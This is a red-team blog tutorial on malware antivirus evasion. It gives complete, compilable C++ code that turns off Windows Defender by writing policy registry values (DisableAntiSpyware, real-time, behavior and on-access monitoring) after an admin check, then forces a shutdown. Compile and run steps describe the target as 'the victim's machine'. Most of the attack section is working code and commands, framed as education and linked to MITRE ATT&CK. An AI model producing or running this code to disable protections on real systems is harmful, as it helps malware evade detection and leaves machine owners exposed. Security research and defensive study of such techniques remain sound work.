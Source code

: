 ```yaml
---
title:  "Malware AV evasion: part 7. Disable Windows Defender. Simple C++ example."
date:   2022-06-05 10:00:00 +0600
header:
  teaser: "/assets/images/57/2022-06-05_12-21.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - evasion
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!    

![av](/assets/images/57/2022-06-05_12-21.png){:class="img-responsive"}    

This post is the result of self-researching one of the most common tricks in the malware in the wild.

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\npress any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:

![av](/assets/images/57/2022-06-05_12-19.png){:class="img-responsive"}    

and check registry keys:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-15.png){:class="img-responsive"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av](/assets/images/57/2022-06-05_12-03.png){:class="img-responsive"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](/assets/images/57/2022-06-05_12-17.png){:class="img-responsive"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-20.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_12-20_1.png){:class="img-responsive"}    

For correctness, check via Windows Defender Security Center:

![av](/assets/images/57/2022-06-05_12-22.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_13-17.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
